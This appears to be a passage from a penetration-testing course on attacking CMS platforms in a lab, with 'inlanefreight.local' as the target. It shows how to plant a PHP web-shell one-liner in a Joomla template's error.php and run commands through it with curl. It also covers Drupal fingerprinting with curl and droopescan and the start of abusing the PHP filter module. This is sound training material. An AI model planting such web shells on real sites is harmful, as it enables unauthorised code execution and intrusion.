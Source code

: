 Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows.

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

### Executing commands

```bash
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

# Drupal - Discovery & Enumeration

A Drupal website can be identified in several ways, including by the header or footer message `Powered by Drupal`, the standard Drupal logo, the presence of a `CHANGELOG.txt` file or `README.txt file`, via the page source, or clues in the robots.txt file such as references to `/node`.

```diff
curl -s http://drupal.inlanefreight.local | grep Drupal

<meta name="Generator" content="Drupal 8 (https://www.drupal.org)" />
      <span>Powered by <a href="https://www.drupal.org">Drupal</a></span>
```

```
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```

## Using Droopescan

```bash
droopescan scan drupal -u http://drupal.inlanefreight.local
```

# **Attacking Drupal**

## **Leveraging the PHP Filter Module (Below version 8)**

Older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."

Next, we could tick the check box next to the module and scroll down to `Save configuration`. Next, we could go to Content --> Add content and create a `Basic page`.

![image.png](../../Images/CMS_image2.png)
